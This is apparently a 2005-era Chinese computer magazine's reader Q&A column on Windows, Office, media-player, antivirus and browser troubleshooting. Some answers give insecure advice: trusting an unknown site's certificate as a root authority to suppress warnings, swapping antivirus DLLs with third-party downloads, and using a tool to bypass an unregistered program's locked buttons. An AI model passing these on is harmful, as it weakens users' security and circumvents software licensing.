在笔记本电脑已经趋于流行的今天，越来越多的厂商在保证笔记本电脑性能、体积及电池容量的前提下，更多的是在笔记本电脑“安全”方面下工夫。对于安全，主要就信息数据及物理硬件上的安全。而对于笔记本电脑的安全设置，大家应该熟知的是指纹识别技术。其实“安全”可不仅仅是如此简单的问题，本文从三大方面全面揭秘笔记本电脑的安全防护，能够让你全方位了解笔记本电脑的安全知识。

文章链接:http://mwb.cfan.com.cn/47

## 谁是 Windows 智能手机的王者

谁是Windows智能手机的王者？每个人心中都有一个答案，性能、价位、扩展性都是不得不考虑的问题，但我们都有一个答案是统一的——智能手机是趋势。也许未来的某一天，就像台式机那样，每个手机的系统都使用的是Windows系统，为什么非要到那时候才去尝试智能手机呢？如果你要换手机，又准备换的是Windows智能手机，那么你就一定要看看本文——Windows系统智能手机《完全采购宝典》。

文章链接:http://mwb.cfan.com.cn/48

## 找回自信，失恋后必玩的五款游戏

如何解脱失恋后的痛苦呢？一般来说需要经历五个步骤：①发泄与释放，迅速摆脱无尽的苦痛；②总结出失败的教训，更有自信心；③让自己更健康，各方面都比以前更强；④明白亲情、友情和爱情一样重要；⑤男人要靠征服世界来征服女人，女人靠征服男人来征服世界。或许有五款游戏可按照这五个步骤帮你逃离失恋的沼泽，让你重新振作起来。

文章链接:http://mwb.cfan.com.cn/46

## 2005十大消费硬件综述

时光飞逝如电。眨眼间，2005年就将过去，在这岁末之际，就让我们来看看2005年最值得关注的10大平民消费级硬件产品（排名不分先后），以便让您能温故而知新。

文章链接:http://mwb.cfan.com.cn/54

## 软件

### 不认识的字也能用智能ABC输入

北京读者杨国林问：我使用的是Windows XP操作系统，通常我只用系统自带的全拼输入法和智能ABC输入法输入汉字。请问，在遇到不会发音的汉字时，除了查字典外，用什么方法能输入这个汉字？千万不要告诉我去学五笔哦，我可不想去记那么多字根。

答：在不会汉语拼音，或者不知道某字的读音时，智能ABC输入法照样可以发挥作用，你可以使用智能ABC输入法中提供的笔形输入法。智能ABC笔形输入法把所有汉字的基本部件归纳为横(提)、竖、撇、点(捺)、折(竖弯钩)、弯、叉、方八种基本笔形，分别用键盘上的1~8这八个数字键为代码进行输入，你只要按照该输入法帮助系统中提供的一个简易代码表和输入法则进行输入即可。需要特别注意的是，系统默认这种输入方式没有打开，如果要使用这种笔形输入法，你需要按如下方法进行设置：在智能ABC输入条上单击鼠标右键，在快捷菜单中选择“属性设置”，在弹出的窗口中选择“笔形输入”复选框，确认即可。

### 解决Word打印页面不合适的问题

河北李金昌问：我从网上下载的一个Word文档的页面设置是A3纸，我想打印它，但发现我的打印机最多只能打印A4尺寸。请问，该如何打印？

答：你需要打印的A3文档的尺寸是29.7cm×42cm，而打印机能打印的A4纸型最大幅面是21cm×29.7cm，直接打印显然不行。你可以用Word提供的“复印机”缩放功能来打印，就是说可以通过“缩放”命令，让Word为文档设置格式，使其符合打印机的纸张尺寸。操作步骤如下：

点击“文件→打印”，系统弹出“打印”对话框，在“缩放”下，在“按纸型缩放”下拉列表框中，选择要使用的纸型，比如选择A4纸型。单击“确定”按钮。

这时，Word将调整文档的页面使其适合所选纸型，在此Word将原本需要打印在A3纸张上的文档，通过自动缩小字号和图形打印在A4幅面的纸上。这类似于复印机的“缩小/放大”功能。

### 关闭Winamp时出现内存引用问题

广西郑关文问：我的Winamp最近出现一个怪问题，就是在我关闭它后就会出现一个对话框，上面写着：“0x0206116e”指令引用的“0x1e28ffff”内存。该内存不能为“read”，要终止程序，请单击“确定”。请问是不是我的内存条坏掉了？该如何解决？

答：这是系统出现了内存读写错误的提示。一般来说，内存条出现问题的可能原因是：内存条坏了、使用了有质量问题的内存、内存插在主板上的金手指部分灰尘太多、使用不同品牌不同容量的内存而出现不兼容的情况、超频带来的散热问题等。但通常内存是不会轻易坏掉的。

如果排除了硬件方面故障的可能，那么就该从软件方面考虑了。由于系统在运行程序时要对一些内存段进行保护，其他的用户程序无法访问该段内存，当用户程序非法读取这些内存空间时，也会出现这样的错误。从你上面的现象来看，应该是Winamp与别的程序产生冲突所致，只要逐个单独尝试其他程序与Winamp并行运行，就可找出产生冲突的程序。

### Word中页码打印的一个难点问题

浙江黄毅龙问：最近在用Word写毕业论文时遇到一个问题，我需要在页眉中出现“第×页 共×页”的形式，然后又要将该类文件集中起来装订成一本书，并在页脚中显示页码，表明该页在整本书中的位置，这就出现了同一页码显示不同页码的情况。请问该如何解决？

答：这个问题可以利用域来方便地解决。假如某文件在整本书中的起始页码为101，按照下面步骤可以完成：

第一步：设置页眉。在页眉中输入“第页 共页”，将光标移动到“第”后面，选择菜单“插入→域(F)”，从域名中选择Page，或者在“第”后面输入Page，然后用鼠标选择Page并按Ctrl+F9。用同样的方法在“共”后面插入域Numpages，这就完成了“第×页共×页”的设置。

第二步：设置页脚。按第一步的方法在页脚中插入域Page，然后在Page前面输入“=100+”，最后用鼠标将刚输入的“=100+”和插入的域一起选中并按Ctrl+F9，通过打印预览就可以查看效果了。

### 微软拼音输入法与RealOne冲突巧解决

江苏孟飞问：当使用的输入法为微软拼音输入法2003，并且隐藏语言栏时，关闭RealOne就会出现如下错误提示：“0xffffffff”指令引用的“0xffffffff”内存。该内存不能为“read”。要终止程序，请单击“确定”。不隐藏语言栏时没问题。请问该如何解决？

答：这是软件冲突造成的内存读写错误。解决办法是，只需在关闭RealOne之前显示语言栏或者将任意其他输入法作为当前输入法即可。

有关内存引用错误问题的更详细情况，可以参考我刊2004年系统栏目有关文章的专门介绍。

### 解决论坛下载附件无法解压问题

问：前些天我从某论坛下载了一个教学资料，分为30个RAR文件，文件名分别是200312138355243843.RAR、200312138444049880.RAR、20041419352815586.RAR等，当解压缩第一个文件时，就出了错误，提示找不到下一个压缩分卷，请问这是怎么回事？（江苏 翁永平）

答：这是因为论坛对用户上传的文件大小有所限制，因此在上传大文件时，只能对它进行分卷压缩，在上传之前这些压缩包文件名是按顺序排列的(由WinRAR生成)，但上传过程中论坛会自动为它们重命名，这样一来就会出现上面的问题了。

知道了原因，要解决这个问题也就简单了，只要将这些文件重命名即可。在重命名时，需要按文件名由低至高的排序，并逐一更名，最后成为一个完整的数字序列(01.RAR、02.RAR、03.RAR……)，再进行解压缩即可。

### 小提示

- ★ 通过扩展名或是查看文件的创建日期也可以判断出文件的先后顺序。
- ★ 根据压缩包内文件名后添加的不同字符，我们可以判断出这个文件的情况:文件名后为星号，则表示文件名被加密过;如果后面是“-->”，则表示文件接续着下一个分卷;文件名后面为“<--”，则表示文件接续着上一分卷;当“<-->”时，则说明该文件在上一个分卷及下一个分卷中都有数据。

### 巧分TXT大文档

问：我有一部可以看TXT格式电子书的手机，但因该手机对TXT文件的大小限制为50KB，所以每次要通过剪切、粘贴来分割成小文件，工作量大不说，文件的大小还特别不好控制。我想问问，有没有能切割TXT文件的软件，以减轻劳动强度。（福建 陈友德）

答：你提出的问题，不仅仅出现在手机上，在一些MP3上也有同样问题。如一些MP3也提供了电子书功能，同样也有诸多不便，但没有设计书签功能，总不能一次看完整本书吧。

所以要解决这个问题，我们可以通过“星皓TXT文件分割器”来解决这个问题。这款软件本来是为没有书签功能的MP3上阅读电子书而设计的，自然它同样可以解决你的问题。它可以从http://www.newhua.com/cfan/200515/cutxt003.rar下载到。

打开软件，点击“源文件”下的“浏览”按钮，选择好要分割的文件。在“输出设置”下设置好输出的目录，然后在“文件长度”中输入要截取的汉字数，像你的50KB限制，可以输入“25000”。最后点击“分割”即可。

### 巧过金山毒霸2005验证

问：我在使用金山毒霸2005时，总是无法通过通行证验证，请问我应该怎么解决呢？（河北 liubmin）

答：如果你的网络使用ISA代理或使用ISA作网关，小区局域网又或是一些局域网的代理，在升级的时候，就可能出现通行证验证失败，或者提示错误码139*****或54*****，最终导致无法升级。

这个问题，可以通过替换文件解决。先从http://www.newhua.com/cfan/200515/kavtxz.rar下载文件，然后退出毒霸，将压缩包内的kavpassp.dll和kavpass2.dll分别覆盖到金山毒霸所在目录(覆盖前请备份好原文件，以便出现问题时恢复)，然后再进行升级即可。

### 解决“暴风影音”播放RM文件问题

问：我在用“暴风影音”播放RM文件时，只要一退出，声音就会变为静音状态，需要手动调整才能恢复，请问这是怎么回事？（福建 吴利）

答：“暴风影音”中对于Real媒体有RealMedia和DirectShow两种渲染模式，其中DirectShow效果更好，但容易出现兼容问题，一些Real媒体无法播放，这时就必须切换至RealMedia模式。不过RealMedia模式也有不足，比如停止后无法继续播放、无法循环播放、无法分离声道，甚至会引起系统波形音量异常，也就是你说的系统音量设置中的波形(Wave)音量会变为0或50%，或是100%。

当遇到这个问题时，可以通过修改“暴风影音”设置来解决。

第一步：点击“开始→程序→暴风影音5→暴风影音综合设置”，打开“暴风影音综合设置程序”窗口。

第二步：勾选“RealMedia设置”，点击“下一步”，拖动“波形音量”滑块至最右侧或希望的值即可。

### 让“暴风影音”强制播放MP4格式

问：我刚刚买了SONY推出的掌上游戏机PSP，从网上下载了很多MP4的视频文件，可是发现这些文件根本没办法在电脑上用“暴风影音”播放，请问应该怎么解决呢？（北京 ZY）

答：PSP支持的MP4视频格式是苹果QuickTime Pro制作的MP4格式，这种格式并不是标准的MP4文件，一般只能用QuickTime Player来播放。如果你不想安装QuickTime Player播放器，只想用“暴风影音”来看，那么可以按照如下方法设置。

第一步：点击“开始→程序→暴风影音5→暴风影音综合设置”。

第二步：勾选“MPEG-4 解码设置”项，点击“下一步”，将“MP4 渲染方式”改为“QuickTime”，“确定”即可。

当你播放完文件后，还需要按上面的方法，将渲染方式恢复为“DirectShow”，否则大部分的MP4都将无法播放。

### 让“暴风影音”兼容HDVD的播放

问：我前几天买了一张压缩电视剧DVD，可是在用“暴风影音”播放时总是出问题，请问如何解决呢？（上海 ZW）

答：这种压缩电视剧通常被我们称为HDVD，虽然用的是DVD载体及文件格式，但画面效果通常只达到VCD水平，在声音的采样率为48KHz，比普通VCD的44.1KHz稍强，这样就实现了一张DVD中放入尽可能多的电视剧。

## 解决“暴风影音”5.1音频问题

问:我在使用“暴风影音”时，音箱总是出现爆音和杂音，请问应该怎么解决？（福州，ZYZW）

答:这多是因为声卡硬件或驱动和解码器不兼容所致，而且出现爆音和杂音也多是在播放包含大量动态音频的5.1声道媒体时出现。要解决这个问题同样也需要打开“暴风影音综合设置”程序，勾选“音频控制选项”，点击“下一步”，在“扬声器/混音设置”下勾选“启用‘音频正常化’”，同时勾选“5.1声道环绕”项即可。

## 双声道电影巧设置

问:我在用“暴风影音”播放丽音（双声道为不同的语音）电影时，请问有没有方法可以让两个声道都发出同一声道的声音呢？（MX）

答:在“暴风影音”中是可以使用“自定义声道”来解决这个问题。

打开软件，选择“查看→选项”，在窗口左侧选择“音频切换器”，勾选“启用自定义声道映射”。在下侧的表格中，X轴表示声卡输出的声道，Y轴表示你的音箱或耳机实际摆放位置。默认时“1”对应“前左”，“2”对应“前右”。如果你希望两个音箱同时发出右声道的声音，那么只要去除“1”下的勾选，同时勾选“2”下的“前左”及“前右”两项即可。

## 恢复 Word 的默认字体颜色

问:我的 Word 文字颜色变了，不管是粘贴进去，还是直接打字，都会变成蓝色，请问应该怎么解决呢？（M&M）

答:这是由于没有选中任何文字就修改了 Word 文字颜色所致，Word 认为蓝色已经成为默认颜色。修改的方法也很简单，不要选中任何文字，选择菜单中的“格式→字体”，在打开窗口中的“字体颜色”下拉菜单中选择“自动”即可。

## 解决 Virtual PC 不能正常还原问题

问:我在使用 Virtual PC 时，保存了虚拟机状态，后来出现无法打开的问题，请问应该怎么解决？（江苏 王艺翔）

答:遇到这个问题，你可以用出问题的 VHD 文件重新建立虚拟机，来解决这个问题。点击“新建 PC”按钮，按照向导一步一步点下去，最后选择出现问题的 VHD 文件，完成新建。

如果你保存的状态正好有一个没有保存的文件，用上面的方法是无法恢复的，遇到这种情况你可以试试任意新建一个虚拟主机，并运行两到三秒后关闭，然后再重新打开有问题的虚拟主机，有时就可以恢复了。

## 文件系统让音乐无法播放

问:前段时间，我用电脑格式化了 MP3 随身听，然后放进去任何 MP3 音乐都无法播放了，请问如何解决这个问题呢？（北京 郑楠）

答:如果所有歌曲都无法播放，这是因为无驱型 MP3 随身听仅支持 FAT16 文件系统，但我们在格式化一般闪存盘时，习惯了选择 FAT32，所以才会出现此问题，要解决也很简单。将 MP3 连好电脑，在“我的电脑”中 MP3 盘符上右击，选择“格式化”，在“文件系统”下拉菜单中选择 FAT 即可。

## 解决迅雷总是开机自启动的问题

问:我平常用迅雷下载软件，为了减少内存占用，我会将它设置为开机不启动，可是该选项失效了，迅雷仍然还会启动，请问应该怎么解决呢？（上海 庞将）

答:如果你在迅雷4的主界面中选择了“主菜单→工具→配置→常规配置”，去除了“开机自动启动”项的勾选，迅雷仍然还是会启动；此时可以直接删除注册表中[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]下的“迅雷4”键值。如果觉得麻烦，可以从 http://www.newhua.com/cfan/200517/sfix.exe 下载修复软件帮你解决这个问题。

## 快速直接分割尺寸较大的 AVI 文件

问:我从网上下载了几个 AVI 文件，尺寸大多是 800MB 左右，现在想将它们刻为光盘。请问应该怎么分割这些 AVI 文件呢？（YANG）

答:分割视频文件的软件有很多，推荐你用 VirtualDub（下载地址:http://nj.onlinedown.net/soft/1969.htm）。用它分割视频文件，不必重新编码，这样可以节省很多时间。

进入软件后，点击菜单中的“视频→直接复制数码流”，然后点击窗口下面的按钮，分别设置好起点和终点，最后点击菜单中的“文件→保存片段 AVI”，就可以完成分割了。

## 解决瑞星防火墙图标移动或见不到报警提示的问题

问:有的时候，我用的瑞星防火墙图标会出现移动或见不到报警的问题，请问是什么原因？（北京 享受孤独）

答:偶尔出现这个情况是很正常的，防火墙为了避免因短时间内骤增的恶意扫描或攻击数据量，2005版的瑞星防火墙在内核中增加了自我保护功能，当有恶意扫描或攻击量连续超过3次/秒时，防火墙就会自动启动自我保护功能。如果已经把报警方式选择为“记录”，这时防火墙会自动在后台记录，而不会在前台提示；如果报警方式为“记录”外的方式，则防火墙将在引擎启动方面转为内置式静默指令，不会提示。

而当你加载规则包后，防火墙灵敏度提高，就会增加数据量，加之防火墙规则包里的每条规则在排序、互动等方面都经过测试，都经过严格测试，并在内核技术尤其是防火墙引擎启动的对接秩序和内置规则的链接执行指令上进行了合理的、严密的匹配，所以就会出现“防火墙图标位置移动或不转动”的现象。

其实此时防火墙只是启动自我保护指令，并没有影响防火墙的正常工作。

其实防火墙类似于服务器，当服务器在短时间内受到的访问次数过多就可以导致服务器瘫痪，而自我保护功能就是为了避免这样的结果。

另外，有些网络游戏或游戏平台所用的是木马默认端口（如浩方使用的 UDP 1203 端口就是其木马的后门），这样在玩游戏时，防火墙就会不间断地过滤端口代码，就会引发防火墙自我保护功能的启动。

## 解决网镖规则不能保存的问题

问:我在使用“金山网镖”时，有时会出现无法保存的现象，只要一重启就会丢失，请问应该怎么办解决呢？（北京 王海涛）

答:这个问题在个别电脑上的确会出现，很多人都说只要关机或重启前手动把网镖关掉即可解决，此方法的确没有问题，但未免有些麻烦。其实，它的原理类似于关闭 Windows，如果用一些快速关机或直接关电源的方法，虽然会提高关机速度，但这两种关机方法都没有保存一些设置。网镖也是这个道理，在关机时，网镖有时会出现没有响应的情况，会要求你选择“立即结束”，还是“取消”，点击“取消”，规则就能保存，点击“立即结束”就不会保存，类似强制关机。

另外，在一些装有优化软件（如超级兔子）的电脑上，不要勾选诸如“自动终止没有响应的程序”和“加速终止没有响应的程序”的选项即可。另外，还要将网镖安装目录下 RULES 子目录中的所有文件“只读”属性去除。

## 解决瑞星杀毒时提示“请解压”的问题

问:有一次我在用瑞星杀毒时，提示“请解压”，请问这是什么原因？（北京 享受孤独）

答:出现这个提示，主要是由下面几个原因造成的。

- 病毒藏在 Temporary Internet Files 目录下

打开 IE，选择菜单中的“工具→Internet 选项”，点击“常规”标签下的“删除文件”按钮，在打开窗口中勾选“删除所有脱机内容”，点击“确定”。

如果还是无法解决问题，可以进入安全模式，进行同样操作。如果问题仍然没有解决，可以在“安全模式”下，打开“资源管理器”，点击菜单中的“工具→文件夹选项”，在“查看”标签下去除“隐藏受保护的操作系统文件”项的勾选，同时选择“显示所有文件和文件夹”，然后进入 C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files 目录，删除所有文件。

- 病毒藏在_Restore(Windows Me)或 System Volume Information(Windows XP)目录下

如果出现这个问题，是因为病毒隐藏进了系统还原目录，关闭系统还原即可。在 Windows Me 中，要打开“控制面板”，点击“系统”项，点击“性能→文件系统”，单击“疑难解答”选项下的“禁用系统还原”，“确定”，重启即可。用 DOS 引导盘引导至 DOS，然后删除 _Restore 目录下的内容即可（注意，每个分区下的内容都要删除）。

如果是 Windows XP，则要点击“开始→程序→附件→系统工具→系统还原”，点击“系统还原设置”，勾选“在所有驱动器上关闭系统还原”即可。

- 病毒藏在 RECYCLER 目录中

RECYCLER 目录是回收站所在文件夹，每个分区都有该目录。你可以清空回收站，或是删除回收站中的文件来解决问题。

## 从“私人文件保密专家”中恢复文件

问:我前段时间试用了“私人文件保密专家”，结果把一个重要文件夹给锁住了，现在只有注册才能恢复，请问应该怎么解决呀？（北京 Hey Juliet）

答:不少朋友都因为好奇，试用了“私人文件保密专家”，结果重要资料就无法导出了。如果资料很重要，又一时无法注册软件时，可以试着用“按钮激活器”（下载地址：http://nj.onlinedown.net/soft/23743.htm）来解决这个问题。使用时，先点击软件主界面上的“true”按钮，然后点击“私人文件保密专家”上的那些灰色按钮就可以了。

## 解救压缩包中的视频文件

问:我从某 FTP 上下载了一个很大的视频文件，下载到 99% 时，FTP 上不去了，这个文件是用 RAR 压缩过的；请问我没有办法可以看到其中的内容呢？（上海 豆子）

答:其实，可以利用 WinRAR 本身提供的功能，再加上媒体修复软件，就能将这个视频文件抢救出来，方法也很简单。右击下载的 RAR 文件，在弹出窗口中勾选“保留损坏的文件”，这时再解压缩，虽然仍有错误提示，但能顺利完成解压缩，同时视频文件也可以保留。完成后，用我们 2005 年 19 期介绍的“All Media Fixer”（下载地址：http://www.newhua.com/cfan/200519/MediaFixer.exe，汉化版下载：http://www.newhua.com/cfan/200519/hamf.rar）来修复受损的视频即可。

如果是用FlashGet或BT下载的文件，在进行上面的操作前，还要先将扩展名改为RAR才可以使用。

## 巧解闪存盘无法取下问题

问:我在用闪存盘时，经常会出现“现在无法停止‘通用卷’设备，请稍候再停止该设备”的提示，这时候，我经常要使用各种方法，关闭各种软件，严重时还要重启，请问有没有软件可以自动切断那些与闪存盘关联呢？（新疆 刘新）

答:很多朋友都有你的问题，我们可以用Unlocker和Unplug，再加上批处理就可以完成这个操作了。

第一步:从http://www.newhua.com/cfan/200520/UDISK.rar下载所需要的Unlocker和Unplug两个工具，将文件解压缩，如解压缩至D:\UDISK目录下。

第二步:打开“命令提示符”窗口，进入D:\UDISK目录，运行Unplug，将第三行闪存盘信息复制到剪贴板中，即“USB Mass Storage Device\OTi flash disk USB Device\通用卷”，在实际使用时，要将下面代码中的这段字符替换为Unplug实际显示的内容。

第三步:在D:\UDISK目录下用“记事本”建立UDISK.BAT，文件内容如下。

```
@echo off
echo #Iunplug/findstr "USB Mass Storage Device\OTi flash disk USB Device\通用卷">%temp%\tmpout.txt
for /f "usebackq delims=[] tokens=1,2,3" %%i in (%temp%\tmpout.txt) do (
"unlocker.exe" %%i /s
unplug %%i/findstr "OK."
if errorlevel 1 pause
)
```

第四步:运行UDISK.BAT，闪存盘就可以取下来了。

## 小提示

为了增加通用性，你可以将上面代码中的“"USB Mass Storage Device\OTi flash disk USB Device\通用卷"”（不含外侧引号）改为“"USB Mass Storage Device"”（不含外侧引号）。这段代码可以从http://www.newhua.com/cfan/200520/UDISKcode.rar下载到，将它和另外两个文件放在一起，就可以制作出快速拨出闪存盘的通用程序。不过这样的坏处是如果你同时插上了多个闪存盘，那样所有的闪盘都会被弹出。

## 拯救被WPS文字废掉的Word

问:前段时间金山公司推出了WPS Office 2005个人版，于是我也在第一时间进行了安装，当提示是否关联MS Office文档时，我选择了“是”。于是默认打开DOC、XLS等文件时，都使用的是WPS，就连在“开始”菜单中点击“新建Office文档”也同样使用WPS。不过，我的Word 2000再也无法启动了，即使是用WPS Office 2005的配置工具将文件关联恢复到原来的样子，点击Word文件时，还是提示找不到文件，尝试直接在“开始”菜单中启动Word，结果是欢迎画面一闪就没有了下文。我找出了Office 2000的安装盘，对Word进行了修复，可依然无效，请问我应该如何解决这个问题呢？（云南 林子）

答:其实，这个问题是由于Word调用默认模板错误而造成的，在你通过“开始”菜单下的“新建Office文档”下新建“空白文档”时，WPS Office 2005窗口中标题栏显示的是“normal.dot”，而不是“空白文档”或“文档1”，可见WPS文字不是以Normal.dot为模板新建一个空白文档，而是直接打开了这个模板文件。这样如果用WPS文字对其进行修改并存盘的话，则有可能导致在Word调用此模板时出现错误。

按照这个思路，我们进行下面的修改，在“资源管理器”中点击菜单中的“工具→文件夹选项”，勾选“查看”标签下的“显示所有文件和文件夹”，同时去除“隐藏受保护的操作系统文件（推荐）”。进入在C:\Documents and Settings\Administrator\Application Data\Microsoft\Templates文件夹，找到normal.dot，将它删除，重新启动Word就可以了。

## 打开网页后，不再另存为

问:我的电脑不知什么原因，访问某些网站时总提示让我将页面另存为，根本无法打开主页。请问有什么解决方法吗？（北京 Flash）

答:我以前也出现过类似问题，访问http://www.****.net等网站没有任何问题，但访问形如http://****.net的站点就会出现相同问题。后来经过了数次测试，终于找到了解决方法。进入IE，选择菜单中的“工具→Internet选项”，点击“高级”标签，勾选“HTTP 1.1设置”下的“使用HTTP 1.1”项即可。

## 简单加快BT下载速度

问:当我用BT下载一个新资源时，往往发现有十几个用户在供种，并且还有几百甚至上千人在同时下载。可是我的下载速度仍然非常慢，这是为什么呢？（Aoouch .FreeStyle）

答:其实这是由于Windows XP SP2把单个系统进程进行了并发连接数限制，通过补丁可以修改这个并发连接数，就可以加快下载速度了。如果对于单一下载任务速度还是过慢，可以用下面方法。

以BitComet为例，在当前任务下打开用户列表页。这时可以看到本机应该已经连接了几十个用户。再仔细看看，却发现很多主机并未和本机进行实际的数据交换，下载字节和上传字节都为0KB。全部的下载量仅仅来自于几个用户。由于BitComet会对单个任务的用户连接数进行限制（这取决于你的设置），所以当本机连接了一定数量的主机后就不会连接别的用户了。尽管一些用户已经连接到了本机，但是由于某些原因并未实际的传输数据。这样一来，这些连接就占用了双方的连接名额，从而影响双方的下载速率。所以，还不如干脆断掉这些连接，连接一些别的用户。

断开连接的方法很简单，在传输率为0KB的IP地址上单击鼠标右键，然后选择“1小时内拒绝连接”即可。其实，就算我们连接的是那些已经下载了100%的用户，但无法下载到数据也是没用的。所以，可以毫不犹豫地把它们断开。做完这项工作一段时间之后，BitComet就会自动连接一些新的用户。当然，这些新用户中也会有传输率为0的情况，这就需要我们把刚才的工作重复几次。最理想的效果是本机连接的所有用户都在同本机进行数据交换，如此一来，下载的速率自然就提高了。当然，这样也可以更好的利用带宽，尽可能多的给别人传输数据。

这个方法的原理非常简单，用起来也不复杂。但是，如果这个资源总共只有几十个人在下载，就算把传输率为0的用户全部断开，也不能连接到更多新的用户，这个方法也便失去了意义。

## VMWare中声卡无声问题

问:前段时间我安装了VMWare，可是声卡没有声音，请问我应该怎么解决呢？（成都 刘全好）

答:在VMWare虚拟机中，虚拟出来的声卡为创新的Sound Blaster 16声卡，因此，只要安装好它的驱动就可以发声了，你可以在http://drivers.mydrivers.com/dir72/d29142.htm中下载到它的驱动程序。

## 巧解Maxthon假死问题

问:我的Maxthon浏览器只要打开过多的网页，就会出现假死的状态，请问有什么好方法可以解决这个问题吗？（down）

答:这个问题是许多多窗口浏览器的通病，只要你同时打开过多页面，就会因Maxthon占用过多系统资源而出现假死现象。要解决这个问题只要不同时打开多个窗口即可。如果已经出现假死的现象，可以断开网络，这时Maxthon就会恢复了。

## 卸载百度搜霸工具条

问:在安装比特精灵中文版时，最后会提示“注册组件”，我选择后，发现安装了百度搜霸工具条插件，请问如何删除呢？（000）

答:如果无法卸载，主要是因为baidubar.dll文件无法删除所致。我们可以先反注册此文件，然后再删除文件夹即可，具体方法是在“开始→运行”中输入“regsvr32 -u "C:\Program Files\Baidu\bar\baidubar.dll"”（不含外侧中文引号），然后再删除文件即可。

## 消除Photoshop CS2的Updater错误提示

问:前段时间用了Photoshop CS2（简称CS2），但每次启动结束时，都会出现一个错误提示，大意为“无法启动Adobe Updater，请重新安装应用程序和组件”，我朋友电脑上安装的英文版CS2也出现了类似提示，“The Adobe Updater could not be started,, please reinstall application and components”。虽然不影响正常使用，但每次启动完毕都要手动关闭此错误窗口才能使用Photoshop，非常麻烦，请问这个问题应该如何解决呢？（上海 岑光超）

答:这个问题Adobe的官方网站提供了一种解决方案，你可以登录http://www.adobe.com/support/techdocs/331634.html查看，主要就是把Adobe Common File Installer安装好（使用Adobe Creative Suite 2.0安装盘进行安装），这个错误提示就不会有了。

不过，Adobe提供的这个办法，不仅麻烦，还会占用80多MB的磁盘空间，而且，很多用户也并不打算或者不需要升级功能。

其实我们可以通过修改AdobeUpdaterPrefs.dat文件的方法来禁止CS2自动升级。打开C:\Documents and Settings\用户名\Application Data\Adobe\Updater\文件夹，用“记事本”或其他文件编辑软件打开AdobeUpdaterPrefs.dat，修改其中的内容为

```
<?xml version="1.0" encoding="UTF-8"?>
<AdobeUpdater>
<AutoCheck>0</AutoCheck>
</AdobeUpdater>
```

现在，重新启动CS2，这个问题就完美解决了。当然，前提是你并不需要Adobe Updater功能。

## 解决0xc0000135错误提示问题

问:我在安装2005年第19期《巧取豪夺网站电子书》一文介绍的MagicGet时，出现了错误提示“应用程序正常初始化失败(0xc0000135)”，请问如何解决？（byt001）

答:这款软件必须要安装.NET Framework 1.1才能使用，下载地址为http://www.newhua.com/cfan/gonggong/dotnetfx.exe。

## 解决修复延缓写入失败问题

问:我从网上下载电影时，Windows XP系统托盘突然提示“Windows - 延缓写入失败”，并且提示下载的文件数据已经丢失，这个错误可能是由于计算机硬件或网络连接失败而造成的。同时，还建议我将文件保存到别处，请问为什么会出现这种情况呢？（000）

答:一般出现这个问题主要有三方面原因，一是硬盘可能出现问题，这时你要检查硬盘是否出现坏道，或其他问题；二是如果保存的位置是移动硬盘，硬盘本身又没问题，很可能是由于电压不足造成，建议为移动硬盘配备外置电源；三是如果保存的位置是映射的网络驱动器，可能是对方重启电脑导致的。

脑，稍后就会恢复。

## Nero 破坏 UDF 格式的问题

问：我前段时间刻录了一张 UDF 格式的 DVD，刻完之后没办法读取，请问应该怎么解决呢？(刘新)

答：你应该是安装了 Nero 7.0.1.2 中的 InfoCD，安装此工具后，会破坏原 UDF 格式驱动，你只要卸载 InfoCD 后，就可以解决问题了。

## MSN 无法收到消息的原因

问：我安装了最新版本的 MSN Messenger 7.5，可是总是出现“您的计算机上安装的某个程序使您无法接收即时消息”的提示，请问是什么原因呢？(BiL)

答：如果网络没有问题，应该是你安装的“Google 桌面搜索”引起的故障，建议你升级“Google 桌面搜索”至最新的 2.0 版，或是卸载此软件。

## 备份 MSN Messenger 的表情符号

问：我想备份 MSN Messenger 的表情符号，以便重装时还能使用，请问应该怎么做呢？(MSN)

答：要备份 MSN Messenger 的表情符号很简单，进入 C:\Documents and Settings\用户名\Application Data\Microsoft\MSN Messenger 目录，此目录下有一个或几个用数字命名的文件夹，将它们备份出来即可。当然你也可以使用 MSN Shell 等软件直接进行备份。

## 去除网站安全提示的方法

问：我有一个经常登录的网站，每次登录，总是弹出“安全警报”的提示窗口，只有点击“是”按钮才能打开网站，请问怎么去除这个窗口呢？(陕西 PP)

答：你可以通过添加安全证书的方法来解决这个问题。在弹出的窗口中点击“查看证书”按钮，点击“证书”窗口“常规”选项卡下的“安装证书”按钮，在打开的“证书导入向导”窗口中点击“下一步”，然后选择“将所有的证书放入下列存储区”，并点击“浏览”按钮，在弹出窗口选择“受信任的根证书颁发机构”，点击“下一步→完成”按钮，完成添加即可。

另外，对于这类网站通常还会弹出“该网页不但包含安全的内容，也包含不安全的内容”的提示框，对于这种提示，可以在 IE 中点击“工具→Internet 选项”菜单项，在弹出窗口中点击“安全”标签。

## 解决软件保存速度过慢问题

问：我用 Office 2003 中的组件保存文件时，从默认的“我的文档”切换到其他文件夹时速度很慢，要等待很长时间才有反应，而且不管是“保存”，还是“另存为”都有这个问题，请问这是什么原因呢？(FP)

答：一般这是由于你的系统设置了网络映射盘所致，而有些映射盘已经失效，因此出现此问题。只要切断与这些失效的网络映射盘的链接就可以了。

## 替换 Maxthon 中的出错页面

问：我平常浏览网页用的是 Maxthon，当我打开的网页不存在时，就会用搜索引擎搜索该网址，而不是提示此页无法显示，请问怎么解决这个问题呢？(北京 李斌)

答：这是由于 Maxthon 启用了“友好错误页面”所致，可以通过设置解决。点击菜单中的“选项→Maxthon 选项”项，在弹出窗口左侧选择“高级”，然后在右侧选项框最下面找到“显示友好错误页面”，去除其勾选即可。

## 使用默认页按钮为何失效了

问：陕西读者卢维高问：为什么我的 IE 主界面的“工具→Internet 选项”中的“使用默认页”按钮变成了灰色不可选状态？该如何恢复？

答：出现这个问题的原因是注册表中的 homepage 键值被修改了。打开注册表编辑器，找到 [HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Control Panel]，将其下的 homepage 键值（DWORD 值）由 1 修改为 0，然后保存退出并重启系统即可。

## 同时打开两个文件夹的问题

问：北京读者张帆问：我使用的是 Windows XP，最近我每次打开一个文件夹时，都会新打开一个窗口，例如我打开“C:\Windows”文件夹时，会同时打开“C:\”和“Windows”这两个文件夹，不知如何设置让它们在同一个窗口中打开？

答：点击“开始→控制面板”，在随后弹出的窗口中双击“文件夹选项”，然后在打开的窗口中选择“常规”标签；接着用鼠标选中“浏览文件夹”区中的“在同一窗口中打开每个文件夹”选项并保存退出即可。

## Windows Update 下载与安装被阻止

